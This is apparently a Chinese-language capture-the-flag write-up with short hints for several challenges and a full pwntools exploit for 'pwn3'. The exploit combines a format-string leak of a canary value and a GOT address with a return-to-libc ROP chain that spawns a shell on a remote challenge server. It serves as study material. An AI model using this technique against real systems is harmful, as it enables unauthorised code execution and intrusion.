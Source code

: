 pwn1 注意到unsigned long long   
0 - 1 = INF  
然后就随便溢出了  
pwn2   
反汇编和汇编不一样  
按汇编为准  
发现rsp = rcx - 8  
瞎xx溢出就行  
pwn3  
首先他的函数指针是可以变得  
然后格式化字符串漏洞  
输出got表和canry值  
然后libc溢出就好  
```python
from pwn import *
from LibcSearcher import *
# context.log_level = 'debug'

# sh = process('./pwn3')
elf = ELF('./pwn3')
sh = remote('49.235.243.206', 9003)
puts_addr = elf.got['puts']


# gdb.attach(sh)

sh.recvuntil('Please tell me your name!\n')

func_addr = 0x40076E
sh.sendline('%9$p%14$s' + 'a' * 7 + p64(puts_addr) + 'a' * 8 + p64(func_addr) + '/0')
sleep(0.1)


text = sh.recvuntil('What do you want to do?\n')
print text

password = int(text[6:24], 16)
puts_addr = u64(text[24:32])
puts_addr &= 0x7fffffffffff
print hex(puts_addr)


libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
pop_rdi_addr = 0x0000000000400913

payload = 'a' * 0x28 + p64(password) + p64(0xdeadbeef) + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
 
sh.sendline(payload)
sleep(0.1)

sh.interactive()
```

misc  
照片最后有东西..  
然后base64  
web1  
view-source  
然后base64